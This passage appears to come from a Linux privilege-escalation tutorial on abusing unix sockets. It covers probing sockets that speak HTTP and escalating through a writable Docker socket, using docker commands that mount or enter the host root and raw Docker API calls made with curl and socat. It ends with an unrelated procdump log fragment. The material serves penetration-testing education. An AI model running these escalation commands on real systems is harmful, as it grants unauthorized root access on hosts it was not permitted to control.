 **Exploitation example:**

{% content-ref url="socket-command-injection.md" %}
[socket-command-injection.md](socket-command-injection.md)
{% endcontent-ref %}

### HTTP sockets

Note that there may be some **sockets listening for HTTP** requests (_I'm not talking about .socket files but about the files acting as unix sockets_). You can check this with:

```bash
curl --max-time 2 --unix-socket /pat/to/socket/files http:/index
```

If the socket **respond with a HTTP** request, then you can **communicate** with it and maybe **exploit some vulnerability**.

### Writable Docker Socket

The **docker socke**t is typically located at `/var/run/docker.sock` and is only writable by `root` user and `docker` group.\
If for some reason **you have write permissions** over that socket you can escalate privileges.\
The following commands can be used to escalate privileges:

```bash
docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

#### Use docker web API from socket without docker package

If you have access to **docker socket** but you can't use the docker binary (maybe it isn't even installed), you can use directly the web API with `curl`.

The following commands are a example to **create a docker container that mount the root** of the host system and use `socat` to execute commands into the new docker.

```bash
# List docker images
curl -XGET --unix-socket /var/run/docker.sock http://localhost/images/json
##[{"Containers":-1,"Created":1588544489,"Id":"sha256:<ImageID>",...}]
# Send JSON to docker API to create the container
curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"<ImageID>","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/","Target":"/host_root"}]}' http://localhost/containers/create
##{"Id":"<NewContainerID>","Warnings":[]}
curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/<NewContainerID>/start
```

The last step is to use `socat` to initiate a connection to the container, sending an attach request

```bash
socat - UNIX-CONNECT:/var/run/docker.sock
POST /containers/<NewContainerID>/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp

#HTTP/1.1 101 UPGRADED
#Content-Type: application/vnd.docker.raw-stream
#Connection: Upgrade
#Upgrade: tcp
```


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714